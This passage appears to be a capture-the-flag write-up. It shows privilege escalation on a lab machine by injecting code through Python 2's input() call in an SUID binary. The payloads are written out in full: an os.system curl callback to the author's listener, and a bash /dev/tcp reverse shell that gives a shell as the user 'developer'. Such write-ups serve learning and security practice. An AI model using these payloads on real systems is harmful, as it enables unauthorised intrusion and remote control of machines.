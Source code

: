 ```bash
munmap(0x7f26abb9b000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(3067, Enter URL here:test
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1, in <module>
NameError: name 'test' is not defined
[{WIFEXITED(s) && WEXITSTATUS(s) == 1}], 0, NULL) = 3067
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f26abbe7090}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f26abbe7090}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=3067, si_uid=33, si_status=1, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
```

I'll point out the important part below:

```bash
wait4(3067, Enter URL here:test
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1, in <module>
```

It asks for a url, passed from the python script through the binary. There is a perk here that we can abuse however: the python script is a python2 script AND uses input. For those unaware input within python2 is implemented like eval(raw_input) and since eval is vulnerable we have command injection through importing modules. I'll test with curl to see if this isn't filtered out.

```bash
wait4(3118, Enter URL here:__import__('os').system('curl http://10.10.14.7:8081/test')

httpserver

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.177 - - [30/Mar/2024 18:30:10] code 404, message File not found
10.10.11.177 - - [30/Mar/2024 18:30:10] "GET /test HTTP/1.1" 404 -
```

The final piece of this puzzle is the binary is an SUID with the owner of developer. Now I can run it without strace and send a reverse shell. 

```bash
__import__('os').system('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.7/8888 0>&1"')

nc -nvlp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.177 41792
developer@updown:/home/developer/dev$ cd ~
cd ~
developer@updown:/home/developer$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
developer@updown:/home/developer$ whoami
whoami
developer
```
